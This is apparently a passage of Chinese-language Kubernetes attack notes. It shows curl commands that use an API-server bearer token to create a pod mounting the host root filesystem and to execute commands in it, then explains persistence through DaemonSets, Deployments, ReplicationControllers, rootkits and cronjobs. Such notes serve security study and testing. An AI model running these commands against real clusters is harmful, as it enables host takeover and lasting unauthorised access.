 ```plain
cat > nginx-pod.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: test-444
spec:
  containers:
  - name: test-444
    image: nginx:1.14.2
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
EOF

#创建 pod
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -k ${APISERVER}/api/v1/namespaces/default/pods -X POST --header 'content-type: application/yaml' --data-binary @nginx-pod.yaml

#查看信息
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/default/pods/nginx

#执行命令
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespace/default/pods/test-444/exec?command=ls&command=-l
or
api/v1/namespaces/default/pods/nginx-deployment-66b6c48dd5-4djlm/exec?command=ls&command=-l&container=nginx&stdin=true&stdout=true&tty=true
```

## 持久化

-   DaemonSets、Deployments
-   Shadow API
-   Rootkit
-   cronjob持久化  
    Deployment  
    创建容器时，通过启用DaemonSets、Deployments，可以使容器和子容器即使被清理掉了也可以恢复，攻击者经常利用这个特性进行持久化，涉及的概念有：
-   ReplicationController（RC）  
    ReplicationController确保在任何时候都有特定数量的 Pod 副本处于运行状态。
-   Replication Set（RS）  
    Replication Set简称RS，官方已经推荐我们使用RS和Deployment来代替RC了，实际上RS和RC的功能基本一致，目前唯一的一个区别就是RC只支持基于等式的selector
-   Deployment  
    主要职责和RC一样，的都是保证Pod的数量和健康，二者大部分功能都是完全一致的，可以看成是一个升级版的RC控制器  
    官方组件kube-dns、kube-proxy也都是使用的Deployment来管理
